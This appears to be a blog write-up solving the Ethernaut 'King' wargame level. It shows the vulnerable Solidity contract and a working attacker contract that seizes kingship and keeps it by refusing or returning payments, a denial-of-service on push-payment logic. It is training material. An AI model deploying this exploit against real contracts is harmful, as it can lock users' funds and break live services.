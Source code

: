 ```yaml
---
title: King
type: blog
---
```


Difficulty: ⭐⭐⭐
Date: 2 février 2024
URL: https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6
État: Terminé

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

<aside>
💡 Most of Ethernaut's levels try to expose (in an oversimplified form of 
course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).

</aside>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface King {
  function prize() external returns(uint);
  function owner() external returns(address);
  receive() external payable;
  function _king() external view returns (address);
}

contract TheOnlyOneKing {
  King fakeKing;

  constructor(address payable _fakeKing) {
    fakeKing = King(_fakeKing);
  }

  function becomeTheOnlyOneKing() public payable {
    uint prize = fakeKing.prize();
    (bool success,) = address(fakeKing).call{value: prize}("");
    require(success, 'failed become the only one king');
  }

  receive() external payable {
    if (fakeKing._king() != address(this)) {
      payable(fakeKing).transfer(msg.value);
    }
  }
}
```

This solution is overkill since we can just forbid the to send ether to a contract just by not implementing any fallback function. But this solution is more fun since it’s like TheOnlyOneKing is always fighting back for his crown ! 👑
